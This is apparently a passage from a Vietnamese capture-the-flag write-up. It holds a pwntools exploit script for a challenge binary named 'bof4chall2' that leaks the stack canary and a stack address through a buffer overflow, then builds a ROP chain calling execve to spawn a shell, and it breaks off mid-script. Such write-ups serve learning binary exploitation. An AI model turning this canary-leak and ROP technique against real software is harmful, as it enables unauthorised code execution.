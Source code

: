 ## Kết quả

![image](https://user-images.githubusercontent.com/111769169/230192428-510a12c9-befd-4d58-82db-5e06b3d81e57.png)

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bof4chall2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                   b*vuln+65
                   b*vuln+162
                   c
                   ''')
        input()
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()

    payload = b"a" * 50
    r.sendafter(b"name ?\n", payload)
    r.recvuntil(b"a" * 48)
    canary = u64(r.recv(8)) - 0x61
    log.info("canary: " + hex(canary))
    stack = u64(r.recv(6) + b"\0\0")
    log.info("stack: " + hex(stack))
    ow_canary = stack - 56
    log.info("addr canary: " + hex(ow_canary))

    r.sendafter(b"rop ?\n", p64(ow_canary))

    payload = p64(canary) + b"a" * 40 + p64(exe.sym['main'] + 5)
    r.sendafter(b"enabled?\n", payload)

    pop_rdi = 0x00000000004013b3
    pop_rdx = 0x00000000004011f6
    pop_rsi = 0x00000000004013b1
    pop_rax = 0x00000000004011fa
    syscall = 0x00000000004011f8
    binsh = stack - 72
    shell = flat(
        pop_rdi, binsh,
        pop_rdx, 0,
        pop_rsi, 0, 0,
        pop_rax, 0x3b,
        syscall,
        0x3b

    )
    payload = b"a"
```